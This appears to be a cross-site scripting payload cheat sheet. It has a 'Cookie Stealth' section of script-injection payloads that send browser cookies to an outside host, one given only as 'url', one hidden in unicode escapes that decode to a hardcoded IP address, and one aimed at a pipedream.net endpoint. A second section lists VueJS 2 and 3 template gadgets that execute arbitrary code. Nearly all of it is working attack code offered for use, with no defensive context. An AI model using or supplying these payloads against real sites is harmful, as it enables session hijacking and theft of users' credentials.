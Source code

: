 <span style="color:#21C587">&#35;</span><strong> Cookie Stealth</strong><br>
```html
<script>fetch('url'%2bdocument.cookie)</script>
<script>(new Image).src='url'%2bdocument.cookie;</script>
<script src="//code.jquery.com/jquery.min.js"></script><script>$.get('url'%2bdocument.cookie)</script>
<script src="//code.jquery.com/jquery.min.js"></script><script>$.getScript("//domain"%2bdocument.cookie)</script>
<video src=1 onerror="javascript:document.location='url'%2bdocument.cookie">
<iframe onload=location='javascri'.concat("pt:document",".location=","'url'%2bdocument.cookie")>
<iframe onload=location=["java","script:","document.location=","'url'%2bdocument.cookie"].join("")>
<svg/onload=setTimeout("\u006a\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003a\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u006c\u006f\u0063\u0061\u0074\u0069\u006f\u006e\u003d\u0027\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0031\u0034\u0031\u002e\u0031\u0036\u0034\u002e\u0035\u0032\u002e\u0032\u0030\u0037\u003a\u0031\u0032\u0033\u0034\u0035\u002f\u003f\u0061\u003d\u0027\u002b\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u0063\u006f\u006f\u006b\u0069\u0065")>
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([location.replace("//384bbb03a643480f7077ff3d9d4b01d5.m.pipedream.net?"+document.cookie)],console.log)'></div>
```

---
## VueJS script gadgets

```html
VueJS version 2

<p v-show="_c.constructor`alert(1)`()">
<x v-on:click='_b.constructor`alert(1)`()'>click</x>
<x v-bind:a='_b.constructor`alert(1)`()'>
<x @[_b.constructor`alert(1)`()]>
<x :[_b.constructor`alert(1)`()]>
<p v-=_c.constructor`alert(1)`()>
<x #[_c.constructor`alert(1)`()]>
<p :=_c.constructor`alert(1)`()>
{{_c.constructor('alert(1)')()}}
{{_b.constructor`alert(1)`()}}
{{_c.constructor`alert(document.currentScript.nonce)`()}} 
```
```html
VueJS version 3

{{_openBlock.constructor('alert(1)')()}}
{{_createBlock.constructor('alert(1)')()}}
{{_toDisplayString.constructor('alert(1)')()}}
{{_createVNode.constructor('alert(1)')()}}
<p v-show="_createBlock.constructor`alert(1)`()">
<x @[_openBlock.constructor`alert(1)`()]>
<x @[_capitalize.constructor`alert(1)`()]>
<x @click=_withCtx.constructor`alert(1)`()>click</x>
<x @click=$event.view.alert(1)>click</x>
{{_Vue.h.constructor`alert(document.currentScript.nonce)`()}}
```

---